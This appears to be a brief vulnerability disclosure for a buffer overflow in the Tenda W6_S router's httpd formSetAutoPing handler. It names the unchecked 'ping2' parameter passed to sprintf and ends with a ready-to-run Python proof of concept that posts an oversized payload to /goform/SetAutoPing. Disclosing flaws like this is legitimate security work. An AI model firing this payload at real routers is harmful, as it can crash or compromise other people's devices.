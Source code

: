 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formSetAutoPing

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:


![](6.png)

get value from ping2, then call sprintf, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetAutoPing"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'ping2': payload, 'linkEn':1})
``` 
